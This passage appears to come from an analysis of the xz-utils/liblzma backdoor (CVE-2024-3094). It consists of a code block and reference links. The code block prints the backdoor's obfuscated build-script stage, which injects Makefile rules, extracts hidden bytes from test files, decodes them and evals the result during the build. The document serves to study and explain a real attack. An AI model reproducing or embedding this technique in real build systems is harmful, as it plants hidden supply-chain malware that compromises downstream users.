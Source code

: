 ```bash
fi
if ! grep -qs "$O" libtool > /dev/null 2>&1;then
exit 0
fi
eval $zrKcTy
b="am__test = $U"
sed -i "/$j/i$b" src/liblzma/Makefile || true
d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
b="am__strip_prefix = $d"
sed -i "/$w/i$b" src/liblzma/Makefile || true
b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
sed -i "/$E/i$b" src/liblzma/Makefile || true
b="\$(top_srcdir)/tests/files/\$(am__test)"
s="am__test_dir=$b"
sed -i "/$Q/i$s" src/liblzma/Makefile || true
h="-Wl,--sort-section=name,-X"
if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
h=$h",-z,now"
fi
j="liblzma_la_LDFLAGS += $h"
sed -i "/$L/i$j" src/liblzma/Makefile || true
sed -i "s/$O/$C/g" libtool || true
k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
sed -i "s/$u/$k/" src/liblzma/Makefile || true
l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
    export top_srcdir='\$(top_srcdir)'; \\\\\n\
    export CC='\$(CC)'; \\\\\n\
    export DEFS='\$(DEFS)'; \\\\\n\
    export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
    export INCLUDES='\$(INCLUDES)'; \\\\\n\
    export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
    export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
    export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
    export CFLAGS='\$(CFLAGS)'; \\\\\n\
    export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
    export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
    export libdir='\$(libdir)'; \\\\\n\
    export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
    export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
sed -i "/$m/i$l" src/liblzma/Makefile || true
eval $zrKcHD
fi
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
vs=`grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null`
if test "x$vs" != "x" > /dev/null 2>&1;then
f1=`echo $vs | cut -d: -f1`
if test "x$f1" != "x" > /dev/null 2>&1;then
start=`expr $(echo $vs | cut -d: -f2) + 7`
ve=`grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null`
if test "x$ve" != "x" > /dev/null 2>&1;then
f2=`echo $ve | cut -d: -f1`
if test "x$f2" != "x" > /dev/null 2>&1;then
[ ! "x$f2" = "x$f1" ] && exit 0
[ ! -f $f1 ] && exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
eval $zrKcKQ
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)